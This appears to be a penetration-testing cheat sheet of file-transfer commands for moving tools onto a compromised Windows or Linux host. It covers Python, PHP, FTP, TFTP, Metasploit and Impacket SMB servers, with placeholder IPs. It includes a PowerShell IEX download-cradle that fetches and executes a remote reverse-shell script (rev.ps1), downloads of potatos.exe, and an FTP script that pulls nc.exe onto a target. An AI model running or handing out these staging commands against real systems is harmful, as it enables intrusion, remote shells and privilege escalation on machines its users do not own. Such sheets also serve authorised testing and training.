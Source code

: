 ## Transfer files (HTTP)

python2 -m SimpleHTTPServer 8000

python3 -m http.server 8000

## Transfer files (HTTP)

php -S 127.0.0.1:8080

## Transfer files (FTP)

python3 -m pyftpdlib -p 21

## Transfer file (FTP/msf)

msf> use auxiliary/server/ftp

## Transfer file (TFTP/msf)

msf> use auxilitary/server/tftp

## Windows ( Download TFTP )

tftp -i xxx.xxx.xxx.xxx GET filename.exe\
tftp -i xxx.xxx.xxx.xxx PUT filename.exe

## Windows ( Enable TFTP)

pkgmgr /iu:"TFTP"

## SMB service (Impacket)

python smbserver.py SHARE /root/shells

# Mount windows fileshare                                                                                                                                                                                                                                                               
                                                                                                                                                                                                                                                                                        New-PSDrive -Name "FolderName" -PSProvider "Filesystem" -Root "\\xxx..xxx.xxx\sharename"                                                                                                                                                                                                

## Copy files (SMB service)

copy \\\xxx.xxx.xxx.xxx\\SHARE .

## Windows ( Download HTTP )

powershell "IEX(New-Object Net.WebClient).downloadString('http://xxx.xxx.xxx:8000/rev.ps1')"

(new-object System.Net.WebClient).Downloadfile("http://xxx.xx.xx.xx:8000/1.exe", "1.exe")

powershell -command "& { iwr http://xx.xx.xx.xx:8000/potatos.exe -OutFile potatos.exe }"

## Linux ( Download HTTP )

wget -O filename http://xxx.xxx.xxx/filename

curl -o filename http://xxx.xxx.xxx.xxx/filename

## FTP transfer

You can start FTP on linux box with this command

```sh
python3 -m pyftpdlib -p 21 
```

Then you can transfer with these commands

```sh
echo open 10.11.0.254 21> ftp.txt
echo USER anonymous>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```


